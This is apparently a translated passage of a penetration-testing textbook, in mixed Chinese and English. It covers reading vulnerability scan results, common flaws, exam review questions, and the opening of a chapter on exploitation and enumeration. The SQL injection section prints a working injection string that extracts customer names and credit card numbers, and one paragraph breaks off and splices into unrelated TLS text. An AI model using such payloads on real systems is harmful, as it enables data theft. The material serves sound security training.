缓冲区溢出攻击非常普遍，并且在最初被发现后往往会持续多年。例如，2016 年 Verizon `Data Breach Investigations Report` 确定了 `10` 个漏洞，这些漏洞导致了其研究中 `85` 百分比的入侵。在前 `10` 名中，有四个溢出问题：

*   `CVE 1999‐1058`: Vermillion FTP Daemon 中的缓冲区溢出

*   `CVE 2001‐0876`: Windows `98`、`98SE`、`ME` 和 `XP` 上的通用即插即用 (`UPnP`) 中的缓冲区溢出

*   `CVE 2002‐0126`: BlackMoon FTP Server `1.0` 到 `1.5` 中的缓冲区溢出

*   `CVE 2003‐0818`: Microsoft ASN.1 库中的多个整数溢出

每个漏洞标题中字母 `CVE` 后面的四位数字表示发现漏洞的年份。在一项研究 `2015` 年发生的入侵的研究中，导致入侵的前 `10` 个问题中有四个是利用 `12` 到 `16` 年前的溢出漏洞！


Cybersecurity analysts discovering a buffer overflow vulnerability during a vulnerability scan should seek out a patch that corrects the issue. In most cases, the scan report will directly identify an available patch.

## 特权提升

Privilege escalation attacks seek to increase the level of access that an attacker has to a target system. They exploit vulnerabilities that allow the transformation of a normal user account into a more privileged account, such as the root superuser account.

In October 2016, security researchers announced the discovery of a Linux kernel vulnerability dubbed Dirty COW. This vulnerability, present in the Linux kernel for nine years, was extremely easy to exploit and provided successful attackers with administrative control of affected systems.

In an attempt to spread the word about this vulnerability and encourage prompt patching of Linux kernels, security researchers set up the `dirtycow.ninja` website, shown in 图 5.9. This site provides details on the flaw and corrective measures.


图 5.9 Dirty COW 网站

Rootkits are hacking tools designed to automate privilege escalation attacks. An attacker who gains access to a normal user account may use a rootkit to exploit a vulnerability and perform a privilege escalation attack, seeking to gain administrative privileges.

## 任意代码执行

Arbitrary code execution vulnerabilities allow an attacker to run software of their choice on the targeted system. This can be a catastrophic event, particularly if the vulnerability allows the attacker to run the code with administrative privileges. Remote code execution vulnerabilities are an even more dangerous subset of code execution vulnerabilities because the attacker can exploit the vulnerability over a network connection without having physical or logical access to the target system.

图 5.10 shows an example of a remote code execution vulnerability detected by Nessus.

Notice that the CVSS access vector in 图 5.10 shows that the access vector for this vulnerability is network‐based. This is consistent with the description of a remote code execution vulnerability. The impact metrics in the vector show that the attacker can exploit this vulnerability to completely compromise the system.


图 5.10 代码执行漏洞

Fortunately, as with most vulnerabilities detected by scans, there is an easy fix for the problem. Microsoft has issued patches for the versions of Windows affected by the issue and describes them in Microsoft Security Bulletin MS14‐066.

## 硬件缺陷

Although most vulnerabilities affect operating systems and applications, occasionally vulnerabilities arise that directly affect the underlying hardware running in an organization. These may arise due to firmware issues or, in rarer cases, may be foundational hardware issues requiring remediation.

### 固件漏洞

Many hardware devices contain firmware: computer code stored in nonvolatile memory on the device, where it can survive a reboot of the device. Firmware often contains the device's operating system and/or configuration information. Just like any other code, the code contained in firmware may contain security vulnerabilities.

In many cases, this code resides out of sight and out of mind for the IT team because it is initially provided by the manufacturer and often lacks both an automatic update mechanism and any integration with enterprise configuration management tools. Cybersecurity analysts should carefully monitor the firmware in use in their organizations and develop an updating procedure that applies security updates as they are released.

For penetration testers, firmware vulnerabilities present a unique opportunity because they often remain unpatched. A tester may use a firmware vulnerability in a nonstandard computing device to gain a foothold on a network and then pivot to other systems.

### Spectre 和 Meltdown

Hardware may also contain intrinsic vulnerabilities that can be quite difficult to remediate. In 2017, security researchers announced the discovery of two related hardware vulnerabilities in nearly every microprocessor manufactured during the preceding two decades. These vulnerabilities, named Spectre and Meltdown, exploit a feature of the chips known as speculative execution to allow processes to gain access to information reserved for other processes.

Launching these attacks does require an initial presence on the system, but a penetration tester might exploit this type of vulnerability to engage in privilege escalation after establishing initial access to a system.

Detecting hardware‐related vulnerabilities often requires the use of credentialed scanning, configuration management tools, or other approaches that leverage inside access to the system. When significant new vulnerabilities are discovered, scanning vendors often provide a customized dashboard, such as the one shown in 图 5.11, to assist cybersecurity analysts in identifying, tracking, and remediating the issue.


图 5.11 Spectre 和 Meltdown 来自 QualysGuard 的仪表板

## 不安全协议使用

Many of the older protocols used on networks in the early days of the Internet were designed without security in mind. They often failed to use encryption to protect usernames, passwords, and the content sent over an open network, exposing the users of the protocol to eavesdropping attacks. Telnet is one example of an insecure protocol used to gain command‐line access to a remote server. The File Transfer Protocol (FTP) provides the ability to transfer files between systems but does not incorporate security features. 图 5.12 shows an example of a scan report that detected a system that supports the insecure FTP protocol.


图 5.12 FTP 明文身份验证漏洞

The solution for this issue is to switch to a more secure protocol. Fortunately, encrypted alternatives exist for both Telnet and FTP. System administrators can use the Secure Shell (SSH) as a secure replacement for Telnet when seeking to gain command‐line access to a remote system. Similarly, the Secure File Transfer Protocol (SFTP) and FTP‐Secure (FTPS) both provide a secure method to transfer files between systems.

# 调试模式

Many application development platforms support debug modes that give developers crucial information needed to troubleshoot applications in the development process. Debug modes typically provide detailed information on the inner workings of an application and server as well as supporting databases. Although this information can be useful to developers, it can inadvertently assist an attacker seeking to gain information about the structure of a database, authentication mechanisms used by an application, or other details. For this reason, vulnerability scans do alert on the presence of debug mode on scanned servers. 图 5.13 shows an example of this type of scan result.


图 5.13 调试模式漏洞

In this particular example, the target system appears to be a Windows Server system supporting the ASP.NET development environment. The Output section of the report demonstrates that the server responds when sent a DEBUG request by a client.


解决此问题需要开发人员的配合，并在公开暴露的系统上禁用调试模式。在成熟的组织中，软件开发应始终在仅可从私有网络访问的专用开发环境中进行。应鼓励（或命令！）开发人员仅在专用于该目的的系统上进行测试，在这些服务器上启用调试模式是完全合适的。公开面向的系统无需支持此功能。

### 网络漏洞

现代互联网络使用基础设施组件和网络设备的复杂组合，以提供对安全通信功能的广泛访问。这些网络及其组件部分也容易受到可能在漏洞扫描期间检测到的安全漏洞的影响。

#### 缺少固件更新

操作系统和应用程序并非唯一需要定期安全更新的设备。漏洞扫描还可能检测到网络设备中的安全问题，这些问题需要制造商提供固件更新才能纠正。这些漏洞会导致类似于操作系统缺少补丁报告（如图 5.7` 提供了一种在 Internet 和私有网络上交换信息的安全方式。尽管这些协议可用于加密几乎任何类型的网络通信，但它们最常用于保护与 Web 服务器的连接，并且最终用户熟悉由 `HTTPS` 中的 `S` 指定的这些协议。

`Secure Sockets Layer (SSL)` 是执行此相同功能的较早方法，但 SSL 存在重大安全漏洞，不应再使用。

##### 过时的 SSL/TLS 版本

SSL 不再被认为是安全的，不应在生产系统上使用。早期版本的 TLS 也是如此。漏洞扫描仪可能会报告 Web 服务器正在使用这些协议，网络安全分析师应了解，任何使用这些过时版本的 SSL 和 TLS 的连接都可能受到窃听攻击。图 5.14 显示了一个包含多个支持过时的 SSL 版本 3 的系统的网络的扫描报告示例。

支持过时版本的 SSL 和 TLS 的服务器的管理员应在其服务器上禁用对这些旧协议的支持，并仅支持较新的协议，例如 TLS 版本 1.2。

##### 不安全的密码使用

SSL 和 TLS 通常被描述为加密算法，但实际上情况并非如此。SSL 和 TLS 协议描述了如何使用加密密码来保护网络通信，但它们本身并不是加密密码。相反，它们允许管理员指定可以与这些协议一起在每个服务器上使用的加密密码。当客户端和服务器希望使用 SSL/TLS 进行通信时，它们会交换每个系统支持的密码列表，并就一个双方都可接受的密码达成一致。


FIGURE 5.14 Outdated SSL version vulnerability

某些密码包含漏洞，使其不安全，因为它们容易受到窃听攻击。例如，图 5.15 显示了一个支持不安全 RC4 密码的系统的扫描报告。

解决这个常见问题需要更改受影响服务器上支持的密码集，并确保仅可使用安全密码。

##### 证书问题

SSL 和 TLS 依赖于使用数字证书来验证服务器的身份并交换加密密钥。网站用户熟悉 Web 浏览器中显示的错误消息，例如图 5.16 所示的消息。这些错误通常包含关于所访问网站安全性的极其重要的信息，但不幸的是，这些错误往往被忽略。

漏洞扫描还可能检测到支持 SSL 和/或 TLS 的服务器所呈现的证书中的问题。常见错误包括以下内容：

*   `Mismatch Between the Name on the Certificate and the Name of the Server`

    这是一个非常严重的错误，因为它可能表明使用的是从另一个网站获取的证书。这相当于某人使用从朋友那里“借来”的假身份证的数字等价物。

*   `Expiration of the Digital Certificate`

    数字证书有有效期和过期日期。当您看到过期的证书时，这很可能意味着服务器管理员未能及时续期证书。

    

    FIGURE 5.15 Insecure SSL cipher vulnerability

*   `Unknown Certificate Authority (CA)`

    任何人都可以创建数字证书，但只有当证书的接收者信任颁发证书的实体时，数字证书才有用。操作系统和浏览器包含信任知名 CA 的说明，但如果遇到由未知或不受信任的 CA 颁发的证书，将显示错误。

图 5.16 中显示的错误表明用户正在尝试访问一个呈现无效证书的网站。从 URL 栏中，我们看到用户正在尝试访问 [bankofamerica.com](http://bankofamerica.com)。但是，查看详细信息部分，我们看到所呈现的证书是颁发给 [southwestwifi.com](http://southwestwifi.com) 的。这是使用门户网关对加入公共无线网络的用户进行身份验证的网络上的典型情况。此示例来自西南航空公司提供的机上 Wi-Fi 服务。该错误指出用户并未与美国银行拥有的预期网站通信，不应提供敏感信息。

# 域名系统 (DNS)

`Domain Name System (DNS)` 提供域名与 IP 地址之间的转换服务。DNS 允许最终用户记住用户友好的域名，例如 [apple.com](http://apple.com)，而无需担心这些服务器实际使用的令人头晕目眩的 IP 地址。


FIGURE 5.16 Invalid certificate warning

DNS 服务器是企业网络中漏洞的常见来源。尽管该服务看似简单，但 DNS 有许多严重安全漏洞的记录，需要仔细配置和打补丁。DNS 服务的许多问题与本章已讨论的问题相同，例如缓冲区溢出、缺少补丁和代码执行漏洞，但其他问题则特定于 DNS 服务。

由于 DNS 漏洞非常普遍，DNS 服务器是攻击者和渗透测试人员共同的常见首要目标。


### DNS 放大漏洞

图 5.17 显示了一个漏洞扫描示例，该扫描在组织网络上的两台服务器上检测到了 `DNS amplification` 漏洞。在这种攻击类型中，攻击者向 DNS 服务器发送伪造的 DNS 请求，这些请求经过精心设计，旨在引出比原始请求大得多的响应。这些大型响应数据包随后会发送到伪造的地址，DNS 服务器认为查询正是源自该地址。伪造请求中使用的 IP 地址实际上是拒绝服务攻击的目标，它会被来自世界各地 DNS 服务器的针对其从未发送过的查询的巨大响应所淹没。当以足够大的规模实施时，DNS 放大攻击可以完全压垮目标系统，使其无法运行。


图 5.17 DNS 放大漏洞

### 内部 IP 泄露

IP 地址有两种不同的变体：可通过 Internet 路由的公共 IP 地址，以及仅可在本地网络上使用的私有 IP 地址。任何可通过 Internet 访问的服务器都必须拥有公共 IP 地址以允许该访问，但公共 IP 地址通常由防火墙管理，该防火墙使用 `Network Address Translation (NAT)` 协议将公共地址映射到服务器真正的私有 IP 地址。本地网络上的系统可以使用服务器的私有地址直接访问它，但远程系统绝不应知晓该地址。

配置不当的服务器可能会将其私有 IP 地址泄露给远程系统。当系统在响应 HTTP 请求的头部信息中包含其自身 IP 地址时，就可能发生这种情况。服务器未意识到正在使用 NAT，因此在其响应中使用了私有地址。攻击者和渗透测试人员可以利用这些信息来了解防火墙网络的内部配置。图 5.18 显示了这种信息泄露漏洞的示例。

### 虚拟专用网络问题

许多组织使用 `virtual private networks (VPNs)` 为员工提供安全的远程访问组织网络的权限。与任何应用程序协议一样，管理员必须确保组织提供的 VPN 服务已完全打补丁至当前级别。此外，VPN 需要使用加密密码，并且当它们支持使用不安全密码时，会面临与 SSL 和 TLS 类似的问题。


图 5.18 内部 IP 泄露漏洞

### 虚拟化漏洞

大多数现代数据中心广泛使用 `virtualization` 技术，以允许多个来宾系统共享相同的底层硬件。在虚拟化数据中心中，虚拟主机硬件运行一种称为 `hypervisor` 的特殊操作系统，该系统介入对底层硬件资源的访问。虚拟机随后在 hypervisor 提供的虚拟基础设施之上运行，运行 Windows 和 Linux 变体等标准操作系统。虚拟机可能不知道自己正在虚拟化环境中运行，因为 hypervisor 欺骗它们，使其认为自己可以正常访问底层硬件，而实际上，该硬件与其他系统共享。

图 5.19 说明了 hypervisor 如何在虚拟主机中介入对底层硬件资源的访问，以支持多个虚拟来宾机。


图 5.19 虚拟主机内部

### VM 逃逸

`Virtual machine escape` 漏洞是虚拟化环境中可能存在的最严重问题，尤其是当虚拟主机运行安全级别不同的系统时。在逃逸攻击中，攻击者可以访问单个虚拟主机，然后设法利用该访问权限入侵分配给不同虚拟机的资源。hypervisor 应该通过限制虚拟机仅访问分配给该机器的资源来防止这种入侵。逃逸攻击允许在虚拟机上运行的进程“逃逸”这些 hypervisor 限制。

### 管理接口访问

虚拟化工程师使用虚拟基础设施的管理接口来配置虚拟化环境、设置新的来宾机并监管对资源的访问。从安全角度来看，此管理接口极其敏感，应严格控制访问权限，以防止未经授权的个人获得访问权限。除了在管理接口上使用强大的多因素身份验证外，网络安全专业人员还应确保该接口永远不能直接从公共网络访问。检测到可访问管理接口存在的漏洞扫描会将其报告为安全问题。

### 虚拟主机补丁

本章已经讨论了及时向操作系统、应用程序和网络设备应用安全更新的重要性。同样重要的是，要确保虚拟化平台接收可能影响虚拟来宾或整个平台安全性的安全更新。补丁可能会修正允许虚拟机逃逸攻击或其他严重安全缺陷的漏洞。

### 虚拟来宾问题

网络安全分析师应将在虚拟化环境中运行的每个来宾机视为一台独立服务器，需要像网络上任何其他设备一样给予相同的安全关注。运行在来宾操作系统上的来宾操作系统和应用程序必须及时打补丁以修正安全漏洞，并保持良好维护。从安全角度来看，物理服务器和虚拟化服务器之间没有区别。

### 虚拟网络问题

随着数据中心越来越虚拟化，大量网络流量实际上从未接触过网络。位于同一物理硬件上的虚拟机之间的通信可以在内存中进行，而无需接触物理网络。出于此原因，虚拟网络必须像管理员应用于物理网络一样，得到同样的安全关注。这包括使用虚拟防火墙来控制系统之间的信息流，以及将安全级别不同的系统隔离在不同的虚拟网络段上。

### 物联网 (IoT)

在某些环境中，网络安全分析师可能会遇到 `supervisory control and data acquisition (SCADA)` 系统、`industrial control systems (ICSs)` 以及其他 `Internet of Things (IoT)` 的示例。这些系统允许将物理设备和进程连接到网络，并为寻求使其业务流程更高效、更有效的组织提供大量数据来源。然而，它们也引入了可能在漏洞扫描中出现的新安全问题。

与网络上的任何其他设备一样，IoT 设备可能存在安全漏洞，并且容易受到基于网络的攻击。然而，修补 IoT 设备通常比修补其传统服务器对应物更加困难，因为很难获得补丁。IoT 设备制造商可能不使用自动更新机制，网络安全分析师了解更新的唯一方式可能是通过漏洞扫描，或主动订阅 IoT 设备制造商发布的安全公告。


IoT 设备与连接到网络的其他设备相比，通常也具有独特的特征。它们通常作为 `embedded systems` 存在，其中设备内部运行着操作系统和计算机，但这些系统可能对外部世界并不明显或不可访问。例如，办公环境中常见的大型多功能复印机/打印机设备，内部通常运行着完整的 Windows 或 Linux 操作系统，这些系统可能充当文件和打印服务器。IoT 设备还经常运行 `real‐time operating systems (RTOSs)`。这些系统要么是专用操作系统，要么是标准操作系统的变体，旨在快速处理来自传感器或其他 IoT 组件的数据。

### Web 应用程序漏洞

Web 应用程序是复杂的环境，它们不仅依赖于 Web 服务器，还依赖于后端数据库、身份验证服务器和其他组件来为最终用户提供服务。这些 Web 应用程序可能包含安全漏洞，允许攻击者在网络中立足，而现代漏洞扫描器能够探测 Web 应用程序中的这些漏洞。

#### 注入攻击

`Injection attacks` 发生在攻击者能够通过 Web 服务器向后端系统发送命令，绕过正常的安全控制，并欺骗后端系统认为请求来自 Web 服务器时。这种攻击最常见的形式是 `SQL injection attack`，它利用 Web 应用程序向后端数据库服务器发送未经授权的命令。

Web 应用程序通常会接收用户的输入，并使用这些输入来构建数据库查询，以提供返回给用户的结果。例如，考虑电子商务网站上的搜索功能。如果用户在搜索框中输入 `orange tiger pillows`，Web 服务器需要知道目录中哪些产品可能与此搜索词匹配。它可能会向后端数据库服务器发送类似于以下内容的请求：

```
SELECT ItemName, ItemDescription, ItemPrice
FROM Products
WHERE ItemName LIKE '%orange%' AND
ItemName LIKE '%tiger%' AND
ItemName LIKE '%pillow%'
```

此命令检索可以包含在返回给最终用户的结果中的项目列表。在 SQL 注入攻击中，攻击者可能会向 Web 服务器发送一个非常不寻常的请求，也许会搜索：

```
orange tiger pillow'; SELECT CustomerName, CreditCardNumber FROM Orders; --
```

如果 Web 服务器只是将此请求传递给数据库服务器，它将执行以下操作（为了方便查看，稍微重新格式化）：

```
SELECT ItemName, ItemDescription, ItemPrice
FROM Products
WHERE ItemName LIKE '%orange%' AND
ItemName LIKE '%tiger%' AND
ItemName LIKE '%pillow';
SELECT CustomerName, CreditCardNumber
FROM Orders;
–-%'
```

如果此命令成功，将运行两个 SQL 查询（由分号分隔）。第一个将检索产品信息，第二个将检索客户姓名和信用卡号列表。

防止 SQL 注入攻击的两种最佳方法是输入验证和对数据库访问实施最小权限限制。输入验证确保用户不会向 Web 服务器提供意外的文本。它将阻止使用撇号，而撇号是“跳出”原始 SQL 查询所必需的。最小权限限制 Web 服务器可以访问的表，并可以防止设计用于处理目录信息请求的进程检索信用卡信息。

漏洞扫描器可以检测注入漏洞，例如 Figure 5.20 中所示的漏洞。当网络安全分析师注意到潜在的注入漏洞时，他们应该与开发人员密切合作，验证漏洞是否存在并修复受影响的代码。


FIGURE 5.20 SQL 注入漏洞

#### 跨站点脚本

在 `cross‐site scripting (XSS)` 攻击中，攻击者将脚本命令嵌入到网站中，这些命令将由后来访问该网站的毫无戒心的访问者执行。其目的是诱骗访问可信网站的用户执行由不可信第三方放置在那里的恶意代码。

Figure 5.21 显示了在 Nessus 漏洞扫描过程中检测到的 XSS 漏洞示例。


FIGURE 5.21 跨站点脚本漏洞

网络安全分析师在扫描过程中发现潜在的 XSS 漏洞时，应与开发人员合作评估结果的有效性，并实施适当的控制措施来防止此类攻击，例如实施输入验证。

## 摘要

漏洞扫描器会产生大量可用于指导渗透测试的数据。渗透测试人员必须熟悉漏洞扫描结果的解读以及将漏洞作为攻击目标的优先级排序，以提高其测试工作的效率和效果。

漏洞扫描器通常使用通用漏洞评分系统 (CVSS) 对检测到的问题进行排名。CVSS 提供了六种不同的漏洞度量：访问向量度量、访问复杂度度量、身份验证度量、机密性度量、完整性度量和可用性度量。这些度量共同提供了漏洞被成功利用的潜力以及可能对组织产生的影响的概览。

在解读扫描结果时，渗透测试人员应仔细注意常见问题。误报是指扫描器错误地报告实际上不存在的漏洞。在最好的情况下，这些误报可能会浪费测试时间；在最坏的情况下，可能会向管理员发出渗透测试活动的警报。

为了成功解读漏洞报告，渗透测试人员必须熟悉常见的漏洞。常见的服务器和终端漏洞包括缺少补丁、不受支持的操作系统和应用程序、缓冲区溢出、特权提升、任意代码执行、不安全的协议使用以及调试模式的存在。常见的网络漏洞包括缺少固件更新、SSL/TLS 问题、DNS 配置错误、内部 IP 泄露和 VPN 问题。虚拟化漏洞包括虚拟机逃逸漏洞、管理接口访问、虚拟主机缺少补丁以及虚拟客户机和虚拟网络上的安全配置错误。

## 考试要点

`Be able to explain how vulnerability scan reports provide critical information to penetration testers.` 除了提供系统中存在的漏洞的详细信息外，漏洞扫描报告还提供关键的严重性和利用信息。报告通常包括触发漏洞报告的请求和响应，以及问题的建议解决方案。

`Know the purpose of the Common Vulnerability Scoring System (CVSS).` CVSS 基础分数在 10 点量表上计算一个标准度量，其中包含利用漏洞所需的访问向量、利用的复杂性以及执行攻击所需的身份验证的信息。基础分数还考虑了漏洞对受影响系统的机密性、完整性和可用性的影响。


**能够命名常见的漏洞来源。** 缺少补丁和过时的操作系统是两种最常见的漏洞来源，可通过主动设备维护轻松纠正。缓冲区溢出、特权提升和任意代码执行攻击通常利用应用程序缺陷。支持不安全协议的设备也是常见的漏洞来源。

**了解网络设备应定期接收固件更新。** 网络管理员应确保网络设备定期接收固件更新以修补安全问题。SSL 和 TLS 加密的不当实现也会导致漏洞，当它们使用过时的协议、不安全的加密算法或无效证书时。

**能够解释虚拟化基础设施如何增加另一层潜在漏洞。** 负责虚拟化基础设施的管理员必须格外小心，确保虚拟机监控程序已打补丁并受到防止虚拟机逃逸攻击的保护。此外，管理员应仔细限制对虚拟基础设施管理界面的访问，以防止未经授权的访问尝试。

## 实验练习

### 活动 5.1：解读漏洞扫描

在活动 4.2 中，你对受控网络运行了漏洞扫描。在本实验中，你将解读该漏洞扫描的结果。

仔细审查扫描结果，并为渗透测试的下一阶段制定计划。你发现的哪些漏洞似乎是最有希望的利用目标？为什么？你将如何利用这些漏洞？

### 活动 5.2：分析 CVSS 向量

在本实验中，你将解读漏洞扫描报告中发现的 CVSS 向量，以评估两个漏洞的严重性和影响。

审查 图 5.22 和 5.23 中的漏洞报告。


图 5.22 第一个漏洞报告


图 5.23 第二个漏洞报告

解释每个漏洞的 CVSS 向量组件。哪个漏洞更严重？为什么？

### 活动 5.3：制定渗透测试计划

在本章开头的场景中，你读到 MCDS, LLC 运营的 Web 服务器中发现了两个漏洞。在本实验中，你将制定一个利用这些漏洞的渗透测试计划。

1. 审查场景中识别的每个漏洞。

2. 评估每个漏洞在渗透测试中的重要性。

3. 识别你可能如何利用每个漏洞，以及利用该漏洞希望实现什么。

## 复习问题

答案可在附录中找到。

1. Tom 正在审查漏洞扫描报告，发现其网络中的一台服务器存在内部 IP 地址泄露漏洞。该网络上可能正在使用什么协议导致了此漏洞？

   1. TLS

   2. NAT

   3. SSH

   4. VPN

2. 以下哪个 CVSS 指标包含攻击者必须使用的用户账户类型的信息？

   1. AV

   2. C

   3. PR

   4. AC

3. 以下哪个 CVSS 攻击复杂度指标的值表示指定攻击最容易利用？

   1. High

   2. Medium

   3. Low

   4. Severe

4. 以下哪个机密性、完整性或可用性 CVSS 指标的值表示系统完全被攻破的潜在可能性？

   1. N

   2. A

   3. H

   4. L

5. 当前可用的最新 CVSS 版本是什么？

   1. 1.0

   2. 2.0

   3. 2.5

   4. 3.0

6. 以下哪个指标未包含在 CVSS 可利用性分数的计算中？

   1. 攻击向量

   2. 漏洞年龄

   3. 攻击复杂度

   4. 所需特权

7. Kevin 最近发现了一个新的安全漏洞，并将其 CVSS 基础分数计算为 6.5。该漏洞属于哪个风险类别？

   1. Low

   2. Medium

   3. High

   4. Critical

8. Tara 最近分析了漏洞扫描报告的结果，发现扫描器报告的一个漏洞并不存在，因为系统实际上已按指定打补丁。发生了哪种错误？

   1. False positive

   2. False negative

   3. True positive

   4. True negative

9. 以下哪项不是可能与漏洞扫描结果相关联的常见信息来源？

   1. Logs

   2. Database tables

   3. SIEM

   4. Configuration management system

10. 以下哪种操作系统应避免在生产网络上使用？

    1. Windows Server 2003

    2. Red Hat Enterprise Linux 8

    3. CentOS 8

    4. Ubuntu 22.04

11. 在哪种攻击类型中，攻击者将比分配给该用途的更多信息放入内存位置？

    1. SQL injection

    2. LDAP injection

    3. Cross‐site scripting

    4. Buffer overflow

12. Dirty COW 攻击是哪种漏洞的示例？

    1. Malicious code

    2. Privilege escalation

    3. Buffer overflow

    4. LDAP injection

13. 以下哪种协议绝不应在公共网络上使用？

    1. SSH

    2. HTTPS

    3. SFTP

    4. Telnet

14. Betty 正在为她创建的新公共网站选择传输加密协议。哪种协议是最佳选择？

    1. SSL 2.0

    2. SSL 3.0

    3. TLS 1.0

    4. TLS 1.3

15. 以下哪种情况不会导致在 Web 服务器漏洞扫描期间出现证书警告？

    1. Use of an untrusted CA

    2. Inclusion of a public encryption key

    3. Expiration of the certificate

    4. Mismatch in certificate name

16. 哪个软件组件负责在虚拟化基础设施中强制执行来宾系统的隔离？

    1. Guest operating system

    2. Host operating system

    3. Memory controller

    4. Hypervisor

17. 在哪种攻击类型中，攻击者试图访问分配给不同虚拟机的资源？

    1. VM escape

    2. Management interface brute force

    3. LDAP injection

    4. DNS amplification

18. 以下哪个术语通常不用于描述物理设备与网络的连接？

    1. IoT

    2. IDS

    3. ICS

    4. SCADA

19. Monica 发现攻击者在她管理的 Web 论坛上发布了一条攻击访问该论坛用户的消息。以下哪种攻击类型最可能发生？

    1. SQL injection

    2. Malware injection

    3. LDAP injection

    4. Cross‐site scripting

20. Alan 在攻击后审查 Web 服务器日志，发现许多记录包含来自最终用户的查询中的分号和单引号。他应怀疑哪种攻击？

    1. SQL injection

    2. LDAP injection

    3. Cross‐site scripting

    4. Buffer overflow

WileyPRE

# 第 6 章

利用与横向移动

攻破系统和设备，然后利用你获得的立足点，进一步渗透目标网络，是你作为渗透测试人员所执行的核心工作之一。


在本章中，我们将继续你在 第 4 章，“漏洞扫描”以及 第 5 章，“分析漏洞扫描”中开始的场景。在场景的第 1 部分中，你将学习如何使用 Metasploit 以及密码攻击和其他技术来利用我们在 第 5 章 中发现和评估的漏洞。然后，你将学习如何在获得系统访问权限后提升权限；搜索更多信息；并采取措施确保你保留访问权限，并隐藏成功攻击的证据。

我们将探讨你可以用来进行横向移动（pivot）的技术——即从你已获得访问权限的系统视角寻找新目标。利用这一新视角，你将在规划攻击过程的下一步时测试信任边界和安全区域。

最后，在场景的第 2 部分中，你将使用能够在系统上保持持久立足点并帮助你隐藏妥协证据的技术。

## 漏洞利用与攻击

一旦你对目标进行了初步调查，包括绘制完整的目标列表并对其进行探测以识别潜在漏洞和弱点，下一步就是分析这些数据，以确定你将优先攻击哪些目标，尝试哪些漏洞利用，以及如何访问你已攻破的系统和设备。

在成功攻破系统后，攻击后活动变得至关重要。了解如何保留访问权限并隐藏你的活动，以及如何利用你已获得的访问权限横向移动到之前可能无法访问的其他系统，这些都是你成功的关键。

### 选择目标

在 第 5 章 中，你学习了如何分析漏洞报告，包括审查问题的严重性和 CVSS 分数，并查找缺失的补丁和其他问题。漏洞扫描报告是你在目标选择过程中可能包含的多个输入之一。此外，你还可以考虑你正在进行的渗透测试的主要目标；测试的交互规则；你已经收集的任何其他数据，例如账户信息或应用程序详细信息；以及你自己的技能集。

在大多数情况下，你将针对最脆弱的系统进行初始漏洞利用，以获得可能提供进一步访问权限的立足点。在 图 6.1 中，你可以看到一个易受攻击的 Windows 系统示例的 OpenVAS 漏洞扫描。此扫描结果显示 19 个严重漏洞以及其他评级为中等的漏洞。事实上，使用常规 OpenVAS 扫描，该系统总共返回 19 个高危、61 个中危和 7 个低危问题。如果扫描中出现这样的系统，它将是一个诱人的首选目标！


FIGURE 6.1 OpenVAS/Greenbone vulnerability report

# 枚举

选择目标的关键部分是从你将遇到的众多可能性中寻找潜在目标。识别具有管理员或其他更强大角色的用户，或长时间未登录且可能不会注意到其账户被异常使用的用户，对渗透测试人员来说可能是一个重要步骤。同样，收集关于组、Active Directory 林以及敏感和未加密数据位置的信息是渗透测试人员必须考虑的任务。我们在 第 3 章，“信息收集”中讨论了一些枚举技术，但在这里我们将深入探讨针对渗透测试目标的特定枚举概念。

#### 用户

用户枚举有多种形式：

*   通过尝试登录页面或系统登录进行暴力枚举

*   使用忘记密码工具识别合法的 userIDs

*   通过查看 Linux `/etc/passwd` 文件检查用户

*   通过 Active Directory 查询收集用户信息

*   通过查找用户目录和其他文件系统工件列出用户

*   查询组织的目录服务

*   从 OSINT 查询中收集电子邮件地址

如你所见，尽管此列表远非详尽，但有许多方法可以收集潜在用户列表。关于用户的其他信息可能非常有用——例如，了解他们是否是管理员用户，了解他们是否属于特定组或角色，当然，获取包含密码甚至多因素身份验证的完整凭据集，都可能成为渗透测试中成功的巨大驱动力。

#### 组

枚举组可以帮助渗透测试人员找到可能具有类似访问权限或其他值得攻破的目标。组还可以帮助识别管理员用户和账户，使其成为有用的枚举目标。在 Linux 系统上，这可以简单到查看 `/etc/group` 文件，而 Windows 组可以通过 Active Directory 或 PowerShell 进行审查，或使用本地用户和组 GUI 工具。

#### 林

在 Microsoft Active Directory (AD) 环境中，林是 AD 环境的最顶层容器。因此，枚举林意味着枚举 AD 环境内的所有对象。这可以提供关于计算机、用户和其他 AD 内容的大量数据。在某些情况下，如果域与其他域存在信任关系，甚至可能枚举不属于你自己域的林。

#### 敏感数据

了解敏感数据的位置可能是一项困难的任务，敏感数据的枚举比许多其他类型的枚举更复杂，因为数据可能不在可预测的位置。因此，枚举特定类型的数据可能需要多个信息片段，例如以下内容：

*   组织或个人的惯例和习惯

*   安全策略或程序，如加密或其他敏感数据存储技术

*   可能影响数据存储和保护方式的合规性要求

*   对数据存储和格式的其他影响

即使掌握了这些信息，你可能仍需要编写特定查询或手动搜索至少部分敏感数据。由于敏感数据通常是渗透测试人员（尤其是进行合规性评估的人员）的关键目标，你可能需要花时间去寻找它！

#### 未加密文件

将未加密文件与加密文件分开可以简单到使用 `strings` 等工具检查未加密的文本。更复杂的技术利用文件熵（随机性）来以编程方式确定文件是否可能被加密。虽然此技术可能导致误报，但也可以编写脚本快速测试文件。

在许多渗透测试中，你可能会快速查看发现的文件和文件系统——也许使用 Linux 中的 `cat` 命令——从而快速评估文件是否处于静态加密状态，并需要额外工作才能以未加密形式获取它们。

在考虑每种枚举类型时，你应该考虑如何以及为何可能使用它们，以及哪些场景或访问权限可能使它们更有效或更无效。如果你有权访问 Windows 域内的系统，那么显示林及其内部对象的域枚举技术可能非常强大。然而，如果你无法访问 AD 环境中的系统，你可能更适合通过收集电子邮件地址，甚至仅仅尝试在暴露的接口或应用程序上进行登录来识别潜在目标。在这些情况下，枚举技术有助于识别更多目标，并提供关于在渗透测试中可以采取哪些下一步措施的线索。

### 识别合适的漏洞利用


系统在 图 6.1 中列出了非常多潜在的易受攻击服务。虽然在单个系统上发现如此大量的易受攻击服务很少见，但在环境中的系统间发现许多严重程度不一的漏洞并不罕见。这使得选择合适的漏洞利用程序非常重要，以确保你专注于攻击。

列表中包含七个 OpenVAS 评级为 9.0 或更高严重程度的漏洞，这意味着审查每个漏洞很可能值得——事实上，几乎所有高评级漏洞都可能值得审查。我们将重点关注 图 6.2 中显示的 ManageEngine Desktop Central 9 FileUploadServlet 连接 ID 漏洞。

图片很小，但你可以看到该漏洞的严重程度为 10，检测质量为 99 百分比。这不仅意味着该漏洞很严重，OpenVAS 还向我们保证该漏洞已被正确检测，且不是误报。这种组合使其成为一个非常有吸引力的潜在目标。

还有其他评级为 10 的漏洞，但你也应该查看评级较低的漏洞，它们可能提供信息或允许你采取进一步行动。

